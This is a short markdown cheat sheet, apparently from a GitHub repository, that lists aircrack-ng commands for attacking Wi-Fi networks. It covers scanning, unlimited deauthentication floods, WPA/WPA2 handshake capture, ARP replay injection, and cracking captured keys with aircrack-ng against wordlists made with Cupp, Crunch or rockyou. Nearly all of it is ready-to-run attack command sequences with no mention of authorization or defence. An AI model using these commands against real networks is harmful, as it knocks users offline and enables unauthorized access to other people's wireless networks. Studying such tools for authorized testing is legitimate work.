 # Usage of some tools

In this example
- `mon0` is the name of your interface in monitor mode
- `XX:XX:XX:XX:XX:XX` is the bssid of target network
- `-c X` is the channel of target network
- `out` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force

## Scan network around

```
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
```

## ARP request

```
airodump-ng -c 6 -w out --bssid 00:13:10:30:24:9C mon0
aireplay-ng -0 10 -a 00:13:10:30:24:9C mon0
aireplay-ng -3 -b 00:13:10:30:24:9C -h 00:09:5B:EB:C5:2B mon0
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt -b 00:14:6C:7E:40:80 out*.cap 
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```




